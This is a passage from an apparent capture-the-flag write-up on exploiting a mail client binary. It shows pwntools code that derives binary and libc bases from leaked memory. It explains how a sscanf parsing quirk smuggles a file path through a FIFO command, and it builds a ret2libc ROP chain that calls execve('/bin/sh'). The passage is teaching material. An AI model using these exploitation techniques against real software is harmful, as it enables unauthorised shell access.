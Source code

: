 ```python
"""

e.address = u64(leaks[16:16+8]) - 0x2335
libc.address = u64(leaks[64:64+8]) - 0x29d90
log.info(f"Binary base: {hex(e.address)}")
log.info(f"Libc base: {hex(libc.address)}")
```

Sure enough, checking with `gdb -p $(pidof mailclient)`, these leaks are correct!

## Exploiting the BOF: Preparing the payload

We should be able to use the same principle to overwrite a large amount of data on the stack, achieving a buffer overflow and executing a simple ret2libc ROP chain to pop a shell. But, yet again, we will be screwed over by the restrictions on the subject field.

The subject field can only contain some specific bytes, most certainly not including null bytes and all the random characters that will be present in a ROP chain.

The same trick we used before won't work here. Although the content itself has no restrictions, the content itself is also stored in an unpredictable, and therefore unknowable, file path. I tried getting it to read the payload from /proc/self/fd/0 but that doesn't work since it's actually over a socket.

Wait, hold up, is it really that unknowable?

Recall again that the FIFO api also receives the content path at the end of the packet we send to it. That content can have literally anything we want in it, since it's unimportant. I previously put lyrics from 4 Morant(good song btw) in there but it could also contain anything, including a ROP payload. 

But how can we begin to leak it? Let's start again from smuggling the data into the packet.

Say I sent `NEW035|/tmp/...`(the length of /tmp/mail/content/ is 18, add 16 to that and you get 34, add 1 for the pipe to that and you get 35) This would write `|/tmp/...` to whatever file that was currently selected, but is that *actually* all that useful? How can we even read file data? It's not like we can select a content path file. How about a mail file?

Writing data to a mail file is a shout, since the subject is printed raw, and so data can be exfiltrated that way. However, if it begins with `|`, that won't be the subject, it'll be the content path, and setting that is useless.

This is where sscanf inner mechanics come in. The FIFO API reads the number by first grabbing 3 bytes and then passing them to `sscanf(bytes,"%d",&num)`. sscanf will stop when it hits an invalid character(in this case a character that isn't numeric or a plus or minus sign) but it will then **just write the number it already had**. So instead, imagine the FIFO API received the packet `NEW34|/tmp/...`. It would first read the command, `NEW`. It would then read the number `34|` and sscanf it, the result being `34` as the length. It would then read everything else as its data, successfully discarding the pipe!

So, sending `NEW34` as the subject of an email to update.event@hackemall.live will leak the file path of the contents into whatever file is currently selected. A little manipulation and we can get this to leak the file path through our email file.

I used execve as opposed to system because execve("/bin/sh",NULL,NULL) does the job just as well and when you use system there is often needless shenanigans with stack alignment and saved RBP being invalid. e.address + 0x4000 just serves as a dummy RBP value.
```python
rop = ROP(libc)
rop.execve(next(libc.search(b"/bin/sh\x00")), 0, 0)

payload = flat(canary, e.address + 0x4000, rop.chain())

# Ok, now we need to construct the payload in a file. Not easy.
# We set the update file to /home/mailserver/data/day and then use NEW and some tomfoolery to dump the file path of some content file that contains the main par tof the payload into my mail
# Then, we can cleanly leak the file path(we dump it as the subject) and use existing primitives to build up the file until its suitable
```